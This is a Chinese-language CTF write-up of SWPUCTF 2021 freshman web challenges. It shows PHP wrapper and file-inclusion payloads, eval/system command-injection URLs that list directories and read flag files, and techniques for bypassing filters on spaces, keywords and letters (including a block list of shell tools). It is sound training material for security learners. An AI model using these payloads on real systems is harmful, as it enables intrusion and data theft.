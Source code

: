 ```yaml
---
title: SWPUCTF 2021 新生赛
date: 2022-05-14 22:12:01
tags:
    - CTF
categories: CTF
my: SWPUCTF_freshman-match
---
```


 

部分题目WP

## **PseudoProtocols**(伪协议)

看到题目就是伪协议   直接用下面代码查看hint.php

```
?wllm=php://filter/read=convert.base64-encode/resource=hint.php
```

base64解码后看见

```
<?php
//go to /test2222222222222.php
?>
```

直接访问出现下列代码

```
<?php
ini_set("max_execution_time", "180");
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
    echo "success\n";
    echo $flag;
}
?>
```

第一种解法用下面的payload就可以得到flag

```
?a=data://text/plain,I want flag
```

第二种解法

```
?a=php://input
```

用burp  POST传参也能得到flag

![](https://s2.loli.net/2022/05/15/dsHFWywYONq2LMp.png)

## **include**

直接由题意传file    直接?file=1

![](https://s2.loli.net/2022/05/15/eDBxHYfQFMbz2uN.png)

"allow_url_include"，"on"意味存在着文件包含漏洞  payload如下  也可查看[php伪协议](https://segmentfault.com/a/1190000018991087)

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

![](https://s2.loli.net/2022/05/15/DwGZmnfPHuSzTq1.png)

再进行base64解码得到flag

## **RCE部分**

### **easyrce**

源码

```
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['url']))
{
eval($_GET['url']);
}
?>
```

有eval 但是是get传参 将传入的内容作为php代码执行 利用php可以执行Linux命令

用下列payload查看根目录

```
?url=system('ls /');
```

![](https://s2.loli.net/2022/05/15/OukxLdMYW93ZaoQ.png)

发现在根目录下  直接cat指令读取文件  拿到flag

```
?url=system('cat /flllllaaaaaaggggggg');
```

### **babyrce**

源码：

```
<?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");
highlight_file(__FILE__);
if($_COOKIE['admin']==1) 
{
    include "../next.php";
}
else
    echo "小饼干最好吃啦！";
?> 小饼干最好吃啦！
```

看见题目 cookie传参，键名为admin，值为1，直接传

![](https://s2.loli.net/2022/05/15/ns2AIqJNZ9OrdTc.png)

发现rasalghul.php我们去访问

```
<?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');   //这里过滤了空格 如果 用到了空格输出nonono
  }
  $a = shell_exec($ip);
  echo $a;
}
?>
```

我们可以用其他符号代替$IFS、IFS$9、%09具体可以百度

直接看根目录  发现 flag  

![](https://s2.loli.net/2022/05/15/ZmyugPC1AJQX9I6.png)

然后cat 拿到flag

![](https://s2.loli.net/2022/05/15/UirzT23vXxMLuRW.png)



### **finalyrce**

```
<?php
highlight_file(__FILE__);
if(isset($_GET['url']))
{
    $url=$_GET['url'];
    if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url))
    {
        echo "Sorry,you can't use this.";
    }
    else
    {
        echo "Can you see anything?";
        exec($url);
    }
}
```

这道题就过滤了很多字符   通过[Linux tee命令](https://www.runoob.com/linux/linux-comm-tee.html)写入文件 用dir / | tee guxi可以在当前目录下生成guxi文件

然后去访问url/guxi就可以访问guxi文件

![](https://s2.loli.net/2022/05/15/SbpIiMAmDntJqTO.png)

找到flag  可以用tac代替cat命令  发现直接读取不行   仔细代码审计发现过滤了la没有过滤?我们可以用?代替字母即可

![](https://s2.loli.net/2022/05/15/ifIbCKlPdZozrcn.png)

然后再访问guxi文件就能看见flag

![](https://s2.loli.net/2022/05/15/G8anzRiSHvUb7Z4.png)

### **hardrce**

源码:

```
<?php
header("Content-Type:text/html;charset=utf-8");
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['wllm']))
{
    $wllm = $_GET['wllm'];
    $blacklist = [' ','\t','\r','\n','\+','\[','\^','\]','\"','\-','\$','\*','\?','\<','\>','\=','\`',];
    foreach ($blacklist as $blackitem)
    {
        if (preg_match('/' . $blackitem . '/m', $wllm)) {
        die("LTLT说不能用这些奇奇怪怪的符号哦！");
    }}
if(preg_match('/[a-zA-Z]/is',$wllm))
{
    die("Ra's Al Ghul说不能用字母哦！");
}
echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
eval($wllm);
}
else
{
    echo "蔡总说：注意审题！！！";
}
?> 蔡总说：注意审题！！！
```

打开题目 我直接人麻了  过滤了很多  但仔细看有一个符号没有被过滤“~”取反符号

具体可查看[此文章](https://blog.csdn.net/WilliamsWayne/article/details/78259501)

百度用php在线工具   直接取反命令

![](https://s2.loli.net/2022/05/15/5prIwVCvGzoiKU3.png)

查看到了根目录 

![](https://s2.loli.net/2022/05/15/ZhM9e5Hz2Vrj6Uy.png)

在取反cat命令

![](https://s2.loli.net/2022/05/15/an5mp489BQt3L2z.png)

直接拿到flag

![](https://s2.loli.net/2022/05/15/FThj4ElRCK9rVwL.png)



还有一道我太菜了 写不来
